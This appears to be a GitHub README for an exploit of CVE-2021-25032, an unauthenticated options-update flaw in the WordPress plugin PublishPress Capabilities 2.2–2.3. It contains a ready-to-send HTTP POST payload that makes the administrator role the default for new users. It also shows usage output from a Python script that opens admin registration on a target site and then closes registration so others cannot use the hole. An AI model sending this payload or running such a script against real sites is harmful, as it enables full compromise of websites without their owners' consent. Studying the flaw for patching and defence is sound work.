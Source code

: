 # CVE-2021-25032
PublishPress Capabilities 2.2 - 2.3 - Unauthenticated Arbitrary Options Update to Blog Compromise

# Description

The plugin does not have authorisation and CSRF checks when updating the plugin's settings via the init hook, and does not ensure that the options to be updated belong to the plugin. As a result, unauthenticated attackers could update arbitrary blog options, such as the default role and make any new registered user with an administrator role.


Proof of Concept
---
```
POST /wp-admin/admin.php HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 81
Connection: close

page=pp-capabilities-settings&all_options=default_role&default_role=administrator
```

# Example use of script

Enable Register & Admin
---

```
$ python3 CVE-2021-25032.py -u http://wordpress.lan
The plugin version is below 2.3.1.
The plugin version is 2.2
Vulnerability check: http://wordpress.lan
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site.
```

Disable Register & Subscriber
```
$ python3 CVE-2021-25032.py -u http://wordpress.lan --fix yes
Vulnerability check: http://wordpress.lan
Options set successfully: http://wordpress.lan/wp-admin/admin.php
Fixed: You can not longer register
```
